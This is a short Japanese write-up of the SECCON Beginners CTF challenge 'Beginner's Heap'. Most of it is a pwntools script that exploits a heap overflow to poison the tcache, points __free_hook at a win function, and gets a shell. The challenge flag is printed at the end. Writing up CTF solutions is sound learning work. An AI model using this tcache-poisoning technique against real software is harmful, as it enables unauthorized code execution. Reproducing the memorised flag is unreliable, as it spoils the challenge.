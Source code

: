 # Beginner's Heap

heap overflow についてはまだ勉強をしたことがなかったため、プログラムのヒントに言われるがままに値を書きこんでいったら flag が入手できた、という感じ…

```python
import time

from pwn import *

# context.log_level = "DEBUG"
context.arch = "amd64"

s = remote("bh.quals.beginners.seccon.jp", 9002)

s.recvuntil("<__free_hook>: ")
__free_hook = s.recvline().strip()

s.recvuntil("<win>: ")
win = s.recvline().strip()

# malloc -> free
s.sendlineafter("> ", "2")
s.sendline("AAAA")
time.sleep(0.3)
s.sendlineafter("> ", "3")
"""returned hint
Tcache manages freed chunks in linked lists by size.
Every list can keep up to 7 chunks.
A freed chunk linked to tcache has a pointer (fd) to the previously freed chunk.
Let's check what happens when you overwrite fd by Heap Overflow."""

time.sleep(0.3)
s.sendlineafter("> ", "1")

packed_win = pack(int(win, 16))
packed_free_hook = pack(int(__free_hook, 16))
s.sendline(b"\x00" * 8 * 3 + b"\x30\x00\x00\x00\x00\x00\x00\x00" + packed_free_hook)
"""returned hint
It seems __free_hook is successfully linked to tcache!
And the chunk size is properly forged!"""

time.sleep(0.3)
s.sendlineafter("> ", "2")
s.sendline(packed_win)
time.sleep(0.3)
s.sendlineafter("> ", "3")
"""returned hint
It seems __free_hook is successfully linked to tcache!
The first link of tcache is __free_hook!
Also B is empty! You know what to do, right?"""

time.sleep(0.3)
s.sendlineafter("> ", "2")
s.sendline(packed_win)
time.sleep(0.3)
s.sendlineafter("> ", "3")
time.sleep(0.3)
s.interactive()
```

pwntools に不慣れなため `time.sleep` を何度も使ったクソダサコードになっているし (使わないと `BrokenPipeError` で落ちる)、そもそも手法を完全には理解できていないので、勉強しなおしてこの writeup も更新しようかな…

`ctf4b{l1bc_m4ll0c_h34p_0v3rfl0w_b4s1cs}`